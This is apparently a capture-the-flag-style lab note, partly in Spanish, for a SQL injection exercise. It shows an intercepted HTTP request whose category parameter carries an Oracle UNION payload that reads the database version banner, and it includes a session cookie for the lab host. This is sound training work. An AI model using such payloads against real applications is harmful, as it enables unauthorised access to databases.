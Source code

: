 This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.


Interceptamos con burpsuite y nodificamos el category=

```http
GET /filter?category=' UNION ALL SELECT BANNER, NULL FROM v$version-- HTTP/2
Host: 0a07003f037470e6818a16b000f60014.web-security-academy.net
Cookie: session=PJyxeCx2aooGrG6fU4GrZgec2TxaAnYw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a07003f037470e6818a16b000f60014.web-security-academy.net/filter?category=Lifestyle
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


```

La sintaxis debe de ser propia de una base de datos de Oracle asi que tendremos que investigar sobre la sintaxis que usa oracle para su DB

![[Pasted image 20250514170602.png]]